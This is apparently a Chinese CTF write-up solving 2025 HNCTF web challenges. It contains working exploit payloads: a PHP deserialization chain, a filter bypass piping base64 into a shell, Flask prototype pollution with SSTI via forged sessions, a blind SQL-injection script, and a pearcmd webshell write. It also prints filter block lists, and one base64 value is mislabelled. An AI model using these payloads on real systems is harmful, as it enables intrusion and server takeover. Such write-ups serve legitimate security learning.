---
title: "2025HNCTF"
date: 2025-06-07T08:00:18+08:00
summary: "2025HNCTF"
url: "/posts/2025HNCTF/"
categories:
  - "赛题wp"
tags:
  - "2024HNCTF"
draft: false
---

## ez_php

```php
<?php
error_reporting(0);
class GOGOGO{
    public $dengchao;
    function __destruct(){
        echo "Go Go Go~ 出发喽！" . $this->dengchao;
    }
}
class DouBao{
    public $dao;
    public $Dagongren;
    public $Bagongren;
    function __toString(){
        if( ($this->Dagongren != $this->Bagongren) && (md5($this->Dagongren) === md5($this->Bagongren)) && (sha1($this->Dagongren)=== sha1($this->Bagongren)) ){
            call_user_func_array($this->dao, ['诗人我吃！']);
        }
    }
}
class HeiCaFei{
    public $HongCaFei;
    function __call($name, $arguments){
        call_user_func_array($this->HongCaFei, [0 => $name]);
    }
}

if (isset($_POST['data'])) {
    $temp = unserialize($_POST['data']);
    throw new Exception('What do you want to do?');
} else {
    highlight_file(__FILE__);
}
?>
```

反序列化，先写链子

```
GOGOGO::__destruct()->DouBao::__toString()->HeiCaFei::__call
```

这里的话触发`__call`的方法很简单，先放poc

```php
<?php
class GOGOGO{
    public $dengchao;
}
class DouBao{
    public $dao;
    public $Dagongren=array([1]);
    public $Bagongren=array([2]);
}
class HeiCaFei{
    public $HongCaFei;
}
$a = new GOGOGO();
$a -> dengchao = new DouBao();
$b = new HeiCaFei();
$b -> HongCaFei = "phpinfo";
$a -> dengchao -> dao = array($b, "1");
```

这里的话call_user_func_array会调用$d中的1函数，所以会触发`__call`，同时函数名就是传入`__call`的第一个参数$name，是可控的，那我们可以构造例如$name=ls的命令，然后让函数名也就是HongCaFei变量的值为system，这里还需要绕过GC回收机制，最终的poc

```php
<?php
class GOGOGO{
    public $dengchao;
}
class DouBao{
    public $dao;
    public $Dagongren=array([1]);
    public $Bagongren=array([2]);
}
class HeiCaFei{
    public $HongCaFei;
}
$a = new GOGOGO();
$a -> dengchao = new DouBao();
$b = new HeiCaFei();
$b -> HongCaFei = "phpinfo";
$a -> dengchao -> dao = array($b, "1");
$c = serialize(array($a, null));
$d = str_replace("i:1;N;","i:0;N;",$c);
echo $d;
```



成功执行，后面只需要改一下函数名和参数名就行了

## Really_Ez_Rce

```php
<?php
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);
error_reporting(0);

if (isset($_REQUEST['Number'])) {
    $inputNumber = $_REQUEST['Number'];
    
    if (preg_match('/\d/', $inputNumber)) {
        die("不行不行,不能这样");
    }

    if (intval($inputNumber)) {
        echo "OK,接下来你知道该怎么做吗";
        
        if (isset($_POST['cmd'])) {
            $cmd = $_POST['cmd'];
            
            if (!preg_match(
                '/wget|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\\*|sort|zip|mod|sl|find|sed|cp|mv|ty|php|tee|txt|grep|base|fd|df|\\\\|more|cc|tac|less|head|\.|\{|\}|uniq|copy|%|file|xxd|date|\[|\]|flag|bash|env|!|\?|ls|\'|\"|id/i',
                $cmd
            )) {
                echo "你传的参数似乎挺正经的,放你过去吧<br>";
                system($cmd);
            } else {
                echo "nonono,hacker!!!";
            }
        }
    }
}
```

第一个绕过很简单，用数组绕过就行了

关键在于第二个传参执行命令，一开始是用变量拼接的，但是后面读文件的时候一直因为过滤`.`一直绕不过去，然后只能用编码绕过了

```
cmd=echo Y2F0IC9mbCo= | ba$9se64 -d | s$9h
bmwgLyo= 是 cat /fl* 的base64编码
```

## 奇怪的咖啡店（复现）

```python
from flask import Flask, session, request, render_template_string, render_template
import json
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32).hex()

@app.route('/', methods=['GET', 'POST'])
def store():
    if not session.get('name'):
        session['name'] = ''.join("customer")
        session['permission'] = 0

    error_message = ''
    if request.method == 'POST':
        error_message = '<p style="color: red; font-size: 0.8em;">该商品暂时无法购买，请稍后再试！</p>'

    products = [
        {"id": 1, "name": "美式咖啡", "price": 9.99, "image": "1.png"},
        {"id": 2, "name": "橙c美式", "price": 19.99, "image": "2.png"},
        {"id": 3, "name": "摩卡", "price": 29.99, "image": "3.png"},
        {"id": 4, "name": "卡布奇诺", "price": 19.99, "image": "4.png"},
        {"id": 5, "name": "冰拿铁", "price": 29.99, "image": "5.png"}
    ]

    return render_template('index.html',
                         error_message=error_message,
                         session=session,
                         products=products)


def add():
    pass


@app.route('/add', methods=['POST', 'GET'])
def adddd():
    if request.method == 'GET':
        return '''
            <html>
                <body style="background-image: url('/static/img/7.png'); background-size: cover; background-repeat: no-repeat;">
                    <h2>添加商品</h2>
                    <form id="productForm">
                        <p>商品名称: <input type="text" id="name"></p>
                        <p>商品价格: <input type="text" id="price"></p>
                        <button type="button" onclick="submitForm()">添加商品</button>
                    </form>
                    <script>
                        function submitForm() {
                            const nameInput = document.getElementById('name').value;
                            const priceInput = document.getElementById('price').value;

                            fetch(`/add?price=${encodeURIComponent(priceInput)}`, {
                                method: 'POST',
                                headers: {
                                    'Content-Type': 'application/json',
                                },
                                body: nameInput
                            })
                            .then(response => response.text())
                            .then(data => alert(data))
                            .catch(error => console.error('错误:', error));
                        }
                    </script>
                </body>
            </html>
        '''
    elif request.method == 'POST':
        if request.data:
            try:
                raw_data = request.data.decode('utf-8')
                if check(raw_data):
                #检测添加的商品是否合法
                    return "该商品违规，无法上传"
                json_data = json.loads(raw_data)

                if not isinstance(json_data, dict):
                    return "添加失败1"

                merge(json_data, add)
                return "你无法添加商品哦"

            except (UnicodeDecodeError, json.JSONDecodeError):
                return "添加失败2"
            except TypeError as e:
                return f"添加失败3"
            except Exception as e:
                return f"添加失败4"
        return "添加失败5"


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


app.run(host="0.0.0.0",port=5014)
```

分析源码其实可以看得出来/add路由可以原型链污染，但是有过滤，看到这里有json.loads函数，可以用unicode编码绕过，污染`_static_folder`实现任意文件读取，将该配置指向根目录，从而可以读取根目录上开始的任意文件

```
{"__globals__" : {"app" : {"_static_folder" : "/"}}}
```

换成unicode编码

```
{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f" : {"\u0061\u0070\u0070" : {"\u005f\u0073\u0074\u0061\u0074\u0069\u0063\u005f\u0066\u006f\u006c\u0064\u0065\u0072" : "\u002f"}}}
```



出现这个说明已经污染成功了，我们访问/static/app/app.py拿到最终源码

```python
from flask import Flask, session, request, render_template_string, render_template
import json
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32).hex()

@app.route('/', methods=['GET', 'POST'])
def store():
    if not session.get('name'):
        session['name'] = ''.join("customer")
        session['permission'] = 0

    error_message = ''
    if request.method == 'POST':
        error_message = '<p style="color: red; font-size: 0.8em;">该商品暂时无法购买，请稍后再试！</p>'

    products = [
        {"id": 1, "name": "美式咖啡", "price": 9.99, "image": "1.png"},
        {"id": 2, "name": "橙c美式", "price": 19.99, "image": "2.png"},
        {"id": 3, "name": "摩卡", "price": 29.99, "image": "3.png"},
        {"id": 4, "name": "卡布奇诺", "price": 19.99, "image": "4.png"},
        {"id": 5, "name": "冰拿铁", "price": 29.99, "image": "5.png"}
    ]

    return render_template('index.html',
                         error_message=error_message,
                         session=session,
                         products=products)


def add():
    pass


@app.route('/add', methods=['POST', 'GET'])
def adddd():
    if request.method == 'GET':
        return '''
            <html>
                <body style="background-image: url('/static/img/7.png'); background-size: cover; background-repeat: no-repeat;">
                    <h2>添加商品</h2>
                    <form id="productForm">
                        <p>商品名称: <input type="text" id="name"></p>
                        <p>商品价格: <input type="text" id="price"></p>
                        <button type="button" onclick="submitForm()">添加商品</button>
                    </form>
                    <script>
                        function submitForm() {
                            const nameInput = document.getElementById('name').value;
                            const priceInput = document.getElementById('price').value;

                            fetch(`/add?price=${encodeURIComponent(priceInput)}`, {
                                method: 'POST',
                                headers: {
                                    'Content-Type': 'application/json',
                                },
                                body: nameInput
                            })
                            .then(response => response.text())
                            .then(data => alert(data))
                            .catch(error => console.error('错误:', error));
                        }
                    </script>
                </body>
            </html>
        '''
    elif request.method == 'POST':
        if request.data:
            try:
                raw_data = request.data.decode('utf-8')
                if check(raw_data):
                #检测添加的商品是否合法
                    return "该商品违规，无法上传"
                json_data = json.loads(raw_data)

                if not isinstance(json_data, dict):
                    return "添加失败1"

                merge(json_data, add)
                return "你无法添加商品哦"

            except (UnicodeDecodeError, json.JSONDecodeError):
                return "添加失败2"
            except TypeError as e:
                return f"添加失败3"
            except Exception as e:
                return f"添加失败4"
        return "添加失败5"


@app.route('/aaadminnn', methods=['GET', 'POST'])
def admin():
    if session.get('name') == "admin" and session.get('permission') != 0:
        permission = session.get('permission')
        if check1(permission):
            # 检测添加的商品是否合法
            return "非法权限"

        if request.method == 'POST':
            return '<script>alert("上传成功！");window.location.href="/aaadminnn";</script>'

        upload_form = '''
        <h2>商品管理系统</h2>
        <form method=POST enctype=multipart/form-data style="margin:20px;padding:20px;border:1px solid #ccc">
            <h3>上传新商品</h3>
            <input type=file name=file required style="margin:10px"><br>
            <small>支持格式：jpg/png（最大2MB）</small><br>
            <input type=submit value="立即上传" style="margin:10px;padding:5px 20px">
        </form>
        '''

        original_template = 'Hello admin!!!Your permissions are{}'.format(permission)
        new_template = original_template + upload_form

        return render_template_string(new_template)
    else:
        return "<script>alert('You are not an admin');window.location.href='/'</script>"


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def check(raw_data, forbidden_keywords=None):
    """
    检查原始数据中是否包含禁止的关键词
    如果包含禁止关键词返回 True，否则返回 False
    """
    # 设置默认禁止关键词
    if forbidden_keywords is None:
        forbidden_keywords = ["app", "config", "init", "globals", "flag", "SECRET", "pardir", "class", "mro", "subclasses", "builtins", "eval", "os", "open", "file", "import", "cat", "ls", "/", "base", "url", "read"]

    # 检查是否包含任何禁止关键词
    return any(keyword in raw_data for keyword in forbidden_keywords)


param_black_list = ['config', 'session', 'url', '\\', '<', '>', '%1c', '%1d', '%1f', '%1e', '%20', '%2b', '%2c', '%3c', '%3e', '%c', '%2f',
                    'b64decode', 'base64', 'encode', 'chr', '[', ']', 'os', 'cat',  'flag',  'set',  'self', '%', 'file',  'pop(',
                    'setdefault', 'char', 'lipsum', 'update', '=', 'if', 'print', 'env', 'endfor', 'code', '=' ]


# 增强WAF防护
def waf_check(value):
    # 检查是否有不合法的字符
    for black in param_black_list:
        if black in value:
            return False
    return True

# 检查是否是自动化工具请求
def is_automated_request():
    user_agent = request.headers.get('User-Agent', '').lower()
    # 如果是常见的自动化工具的 User-Agent，返回 True
    automated_agents = ['fenjing', 'curl', 'python', 'bot', 'spider']
    return any(agent in user_agent for agent in automated_agents)

def check1(value):

    if is_automated_request():
        print("Automated tool detected")
        return True

    # 使用WAF机制检查请求的合法性
    if not waf_check(value):
        return True

    return False


app.run(host="0.0.0.0",port=5014)
```

这里可以打ssti，因为可以进行原型链污染，那我们可以直接把`param_black_list`和`SECRET_KEY`污染掉，最后伪造cookie再打ssti就行了

```
{"__globals__" : {"param_black_list" : ["1"]}}
{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f" : {"\u0070\u0061\u0072\u0061\u006d\u005f\u0062\u006c\u0061\u0063\u006b\u005f\u006c\u0069\u0073\u0074" : ["1"]}}

{"__globals__" : {"app" : {"config" : {"SECRET_KEY":"123"}}}}
{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f" : {"\u0061\u0070\u0070" : {"\u0063\u006f\u006e\u0066\u0069\u0067" : {"\u0053\u0045\u0043\u0052\u0045\u0054\u005f\u004b\u0045\u0059":"123"}}}}
```

然后我们伪造session

```
{'name': 'admin', 'permission': '{{self.__init__.__globals__.__builtins__["__import__"]("os").popen("ls /").read()}}'}
.eJwdisEJwzAMAFcpeiWhZICuEhejNEoQ2JKx3Jfx7lH7uzuug2AmeAEemQWeUKhmNmMVj70bpXONkYVbjA5X0h2T_Xn_cmosLlsAf3LR6leA9xRALcC8Fi0kbh9sj-VcfqkSHtM8BowbvmMq-g.aEUwzg.mBiuRSOKBMNSSPfGUTg8XAVIJT0
```



## 半成品login（复现）

一个登录口有弱口令admin/admin123



这个账号一直没爆出来，就返回登录口进行了测试，username只能输入字母和数字，所以压根打不进去，password的话过滤了单引号，但是用反斜杠转义的时候出现了报错，猜测这里应该还是可以sql注入的，但是一直没测出来

来复现了，测了一下发现双重urlencode可以绕过，那我们测一下注入点

```
username=admin&password=admin123%2527#
这个是在抓包后的，如果是在web页面的话是
username=admin&password=admin123%27#
```



这里过滤了select，但是可以注意到php的版本是8.2.28，想起了之前战队面试的时候刚好问到一个php8的sql注入的新特性，就是可以用table代替select进行查询数据

放个师傅的脚本

```python
import requests
import time


dict = '0123456789'
for i in range(ord('a'),ord('z')+1):
    dict += chr(i)


burp0_url = "http://27.25.151.198:31763/login.php"

burp0_cookies = {"PHPSESSID": "292edf1013fa3e34a5c333e5f526d13a"}
burp0_headers = {"Cache-Control": "max-age=0", "Origin": "http://27.25.151.198:31240", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://27.25.151.198:31240/index.php", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}


# 库名
def database():
    res = ''
    for _ in range(100):
        flag = 1
        for i in range(len(dict)):
            # time.sleep(0.1)
            tmp = res + dict[i]
            burp0_data = {"username": "admin", "password": f"admin123%27and/**/(table/**/information_schema.schemata/**/limit/**/4,1)>=(\"def\",\"{tmp}\",3,4,5,6)#"}
            r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data).text
            if 'welcome.php' not in r:
                res += dict[i-1]
                flag = 0
                print(res)
                break
        if flag == 1:
            break

def tables():
    res = ''
    for _ in range(100):
        flag = 1
        for i in range(len(dict)):
            # time.sleep(0.1)
            tmp = res + dict[i]
            burp0_data = {"username": "admin", "password": f'admin123%27and/**/("def","hnctfweb","{tmp}","",5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table/**/information_schema.tables/**/limit/**/329,1)#'}
            r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data).text
            # print(r)
            if 'welcome.php' not in r:
                res += dict[i-1]
                flag = 0
                print(res)
                break
        if flag == 1:
            break

def data_username():
    res = 'hacker'
    for _ in range(5):
        flag = 1
        for i in range(len(dict)):
            # time.sleep(0.1)
            tmp = res + dict[i]
            burp0_data = {"username": "admin", "password": f'admin123%27and/**/(2,"{tmp}","","")/**/<=/**/(table/**/hnctfweb.hnctfuser/**/limit/**/1,1)#'}
            r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data).text
            # print(r)
            if 'welcome.php' not in r:
                res += dict[i-1]
                flag = 0
                print(res)
                break
        if flag == 1:
            break

def data_password(username):
    res = ''
    for _ in range(100):
        flag = 1
        for i in range(len(dict)):
            # time.sleep(0.1)
            tmp = res + dict[i]
            burp0_data = {"username": "admin", "password": f'admin123%27and/**/(2,"{username}","{tmp}","")/**/<=/**/(table/**/hnctfweb.hnctfuser/**/limit/**/1,1)#'}
            r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data).text
            # print(r)
            if 'welcome.php' not in r:
                res += dict[i-1]
                flag = 0
                print(res)
                break
        if flag == 1:
            break


# hnctfweb
# database()

# 329
# hnctfuser
# tables()


# data_username()
# hackernbvag, d8578edf845
data_password('hackernbvag')

```

最后拿到账号密码

```
hackernbvag,d8578edf845
```

登录进去就拿到flag了

## DeceptiFlag

在元素中发现有隐藏的输入框



并且抓包后也是可以看到还需要一个参数的



将none改成inline后出现另一个框框，根据画面有喜羊羊和灰太狼，分别传入xiyangyang和huitailang后跳转



有一个file参数或许可以打文件包含，尝试读取/etc/passwd但是没出，提示Trying to include files from root directory huh，难道是目录遍历？

但是后面一直没打出来



通过报错可以知道用了`require_once`，且强制拼接了`.php`后缀



用filter过滤器成功读出来，那我们读一下tips.php的源码

```php
?file=php://filter/read=convert.base64-encode/resource=tips.php
```

```php
<?php
session_start();

// 为 PHP 7 添加 str_starts_with 函数兼容支持
if (!function_exists('str_starts_with')) {
    function str_starts_with($haystack, $needle) {
        return strpos($haystack, $needle) === 0;
    }
}

if (!isset($_SESSION['verified']) || $_SESSION['verified'] !== true) {
    header("Location: aicuo.php");
    exit();
}

if (!isset($_GET['file'])) {
    header('Location: ?file=flag');
    exit();
}

$file = trim($_GET['file']);

if (preg_match('/\s/', $file)) {
    die('Trying to use space huh?');
}
if (preg_match('/\.\./', $file)) {
    die('Trying to include files from parent directory huh?');
}
if (preg_match('/^\//', $file) && !str_starts_with($file, 'php://filter')) {
    die('Trying to include files from root directory huh?');
}

if (str_starts_with($file, 'php://filter')) {
    $content = @file_get_contents($file);
    if ($content === false) {
        die('无法读取文件');
    }
    echo $content;
    exit();
}

require_once $file . '.php';
```

这里利用php8的一个函数str_starts_with检测开头是否是`php://filter`，后面就是一些正则，不能以`/`开头，也不能出现`..`和空格，这样的话目录遍历打不了了，该怎么读文件呢？

不过后面在cookie中看到一个hint



解码后是/var/flag/flag.txt，啊？这就直接给路径了？一直没做出来，也没注意看

后面想起来用pearcmd也能打，直接写马

```
?+config-create+/&file=file:///usr/local/lib/php/pearcmd&/<?=@eval($_POST[%27cmd%27]);?>+test.php
```

然后访问RCE就行了

## Watch（复现）



从源码中可以看到这里进行了一个路径的拼接，意味着可能存在目录遍历漏洞，后面找出题人问了思路发现是一个https://pkg.go.dev/vuln/GO-2023-2185

